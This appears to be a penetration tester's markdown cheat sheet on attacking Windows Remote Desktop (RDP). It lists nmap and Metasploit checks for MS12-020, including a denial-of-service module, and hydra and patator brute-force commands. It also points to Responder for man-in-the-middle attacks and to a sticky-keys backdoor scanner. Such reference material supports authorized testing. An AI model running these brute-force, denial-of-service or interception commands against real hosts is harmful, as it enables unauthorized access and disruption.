 # RDP

### remote connect

#### remember when you access an active RDP session the current user will be kicked off

remote desktop connection from linux

```text
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### nmap

```text
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### metasploit modules

```text
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### rdp-sec-check

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```text
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### brute force

```text
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### Man-in-the-middle attack on RDP

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### Sticky-keys & Utilman

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```text
sticky-keys-hunter TARGET_IP
```




